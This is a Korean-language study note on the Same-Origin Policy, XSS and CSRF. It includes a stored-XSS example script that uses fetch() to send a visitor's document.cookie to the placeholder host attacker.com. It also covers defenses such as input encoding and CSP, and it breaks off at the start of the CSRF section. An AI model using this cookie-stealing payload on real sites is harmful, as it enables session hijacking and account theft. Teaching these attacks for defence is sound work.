 ### SOP 탄생배경
웹이 동적으로 발전하면서 같이 보안 문제도 증가하게 되었습니다. 이에 따라 잠재적으로 악의적인 사이트간의 격리를 통해 공격 가능성을 줄이기 위해 탄생하였습니다.
- 브라우저의 역할 확대
  - 브라우저가 단순 문서 뷰어에서 클라이언트-서버 통신을 담당하는 플랫폼으로 발전하면서, 공격자가 자바스크립트를 이용해 민감한 정보를 훔치거나 서버에 무단 요청을 보내는 공격이 가능해졌습니다.
- 보안 공격의 현실화
  - XSS(Cross-Site Scripting): 공격자가 사용자 브라우저에서 악성 스크립트를 실행합니다.
  - CSRF(Cross-Site Request Forgery): 공격자가 사용자의 인증 정보를 도용하여 악의적인 요청을 수행합니다.
  - 이런 공격이 SOP가 없는 초기 환경에서는 매우 쉽게 이루어졌습니다.

   | 구분    | 	CSRF                                 | 	XSS                                      |  
    |-------|---------------------------------------|-------------------------------------------|  
    | 공격 대상 | 	서버                                   | 	사용자                                      |  
    | 피해자   | 	인증된 사용자가 자신의 인증 정보를 기반으로 위조된 요청을 보냄	 | 웹사이트의 취약점을 악용하여 다른 사용자가 악성 스크립트를 실행하도록 유도 |

> 💡 SOP(Same-Origin Policy)만으로는 웹 보안을 완벽히 달성할 수 없으며, XSS와 CSRF를 방어하기 위해 별도의 보안 대책이 필요합니다.

### XSS(Cross-Site Scripting, 크로스사이트 스크립팅)
> XSS(Cross-Site Scripting, 크로스사이트 스크립팅)은 해커가 입력한 악의적인 스크립트가 클라이언트 측에서 실행되는 공격으로    
쿠키 값 또는 세션 등 사용자의 중요 정보를 탈취하거나 피싱 사이트로의 접근 유도 등 클라이언트 측에 직접적인 피해를 줄 수 있습니다.

|  ![xss 공격](https://github.com/user-attachments/assets/07d1fa42-49c9-46d8-afbf-1dfee10b44d2)  |
|:--------------------------------------------------------------------------------------------:|
|                                *Stored XSS (저장형 크로스사이트 스크립팅)*                                |

1. XSS 공격 시나리오 (SOP 도입 전)
   1. 공격자가 게시판과 같은 사용자 입력을 처리하는 사이트(e.g., http://hajeonghun.com)에서 악성 JavaScript 코드를 삽입한 게시물 작성
   2. 삽입된 코드는 사용자가 해당 페이지에 방문하여 게시물을 열람할 때 실행되어, 사용자의 쿠키(로그인 세션)를 공격자 서버로 전송

2. 공격 코드  

```html
<!-- 공격자가 게시판에 삽입한 악성 스크립트 -->
<script>
  // 사용자의 쿠키를 공격자 서버로 전송
  fetch("http://attacker.com/steal-cookie", {
    method: "POST",
    body: JSON.stringify({ cookie: document.cookie }),
    headers: { "Content-Type": "application/json" }
  });
</script>
```  
  
- SOP가 없는 상황에서 발생 가능한 문제  
  - 이 코드는 SOP와 무관하게 같은 출처에서 실행되므로 쿠키를 탈취할 수 있습니다.
  - 하지만, SOP가 없으면 document.cookie에 담긴 다른 사이트(e.g., http://bank.com)의 쿠키도 읽을 수 있습니다.
  - 즉, 공격자는 게시판 사이트(e.g., http://hajeonghun.com)의 사용자의 로그인 세션을 탈취해 해당 사용자의 계정을 도용할 수 있을뿐만 아니라 피해자의 모든 사이트 로그인 세션을 탈취할 수 있습니다.

> 💡 SOP는 XSS 자체를 100% 방어하지 못하며, 이를 방어하기 위해서는 입력 검증(e.g., HTML 엔티티 인코딩, 정규식 검증) 및 **CSP(Content Security Policy)** 와 같은 별도의 보안 대책이 필요합니다.

### CSRF(Cross-Site Request Forgery, 사이트 간 요청 위조)
> CSRF(Cross-Site Request Forgery, 사이트 간 요청 위조)는 사용자가 의도하지 않은 요청을 신뢰할 수 있는 웹 애플리케이션에 보냄으로써 발생하는 보안 취약점입니다.  
공격자는 피해자의 인증 정보를 악용하여 서버에 권한이 있는 요청을 위조합니다.
